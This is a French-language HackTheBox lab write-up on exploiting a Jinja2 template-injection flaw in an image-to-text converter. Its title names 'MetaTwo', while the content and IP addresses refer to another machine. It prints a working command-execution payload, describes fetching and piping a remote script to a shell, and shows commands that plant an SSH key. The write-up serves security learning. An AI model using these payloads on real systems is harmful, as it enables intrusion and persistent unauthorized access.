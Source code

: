 ```yaml
---
title:  "HacktheBox WriteUp : MetaTwo"
category: HackTheBox
tag: writeups
---
```

MetaTwo est une machine pour débutants basée sur une plateforme Linux.  
Niveau : Facile

### Savoir-faire
- Nmap
    

### Scanner le réseau

`sudo nmap 10.10.11.186 -sS -sV`


- \-sV Tente de déterminer la version du service fonctionnant sur le port

![ScanLate](/assets/images/WriteUps/HackTheBox/lateMachine/nmapLate.png)  
On s'apperçoit qu'il y a le port 80 ouvert, on va donc aller regarder le site .

![lateSite](/assets/images/WriteUps/HackTheBox/lateMachine/lateSite.png)

### Analyse du site

Après quelques recherches, on tombe sur un texte pointant vers un lien étrange et inaccessible.   
![lateBizare](/assets/images/WriteUps/HackTheBox/lateMachine/lateSiteBizarre.png)   
le lien en question : [images.late.htb](http://images.late.htb/)   
Cependant le lien redirige vers nulle part.  
On décide donc de l'ajouter à notre fichier /etc/hosts qui est un peu l'ancêtre du DNS (mais de manière non centralisée).
Ce fichier a pour rôle d'associer une adresse IP à un nom d'hôte, et il est consulté avant qu'une requête DNS soit faite.

On ajoute donc l'entrée comme ceci :   
`IPAddress DomainName [DomainAliases]`  
Ce qui donne pour notre cas :    
`10.10.11.156 http://images.late.htb/ images.late.htb`      
On a finalement accès à la page en question, qui contient un champ pour upload une image, dans le but 
d'en extraire le texte présent dessus.
![convertImage](/assets/images/WriteUps/HackTheBox/lateMachine/convertImage.png)

### Utilisation du convertisseur d'image

Après quelques recherches, on tombe sur ce blog nous indiquant quelques tests à faire dans le cas 
d'un SSTI (server side template injection, ou injection de template côté serveur) : [blog SSTI](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)

Après avoir lu les explications, et en regardant la cheatlist fournie, on voit en prenant une image de 7x7 que 
le résultat de la convertion d'image en texte nous renvoie ***<p>49</p>***   

On est dans le cas d'un serveur Flask/Jinja2.   

Le but est donc de pouvoir executer des commandes en ayant mis du code dans un image (on prend un screenshot du texte de la commande).

Je vous conseille la font [uni-neue](https://www.fontshmonts.com/text-fonts/uni-neue/) pour que les images
soient correctement détectés.

Dans le blog sur l'explication des SSTI, on voit les mots clés "request.application", avec une recherche google avec ces 
mots clés, on tombe sur ce blog : [SSTI with jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)   
La syntaxe pour executer une requête est donc 

`request.application.__globals__.__builtins__.__import__('os').popen('id').read()`
### Exploit 

À partir de là, on peut executer des commandes sur le serveur avec la commade precedente en remplaçant id par la requête. 
On décide de faire en sorte que le server execute un script accessible sur notre machine en faisant un curl sur un serveur
web (qu'on créé en écoute de notre côté), qui sera piper vers la commande shell pour executer ce script.   
Sur notre machine: 

`python3 -m http.server 8000` 

L'image à envoyer : 

![convertImage](/assets/images/WriteUps/HackTheBox/lateMachine/cmdToServer.png) 

On n'a plus qu'à créer un fichier cmd qui executera les commandes que l'on souhaite.
Dans notre cas on va mettre notre clé ssh sur le serveur pour pouvoir se connecter en shh (le port était ouvert).   
Le fichier cmd contient donc : 

`cat /home/svc_acc/user.txt`  
`mdkir /home/svc_acc/.ssh`  
`echo "ssh-rsa AAAA[....]an" >> /home/svc_acc/.ssh/authorized_keys` 

On peut ensuite faire un ssh et afficher le flag qui est présent sur le répertoire courant.



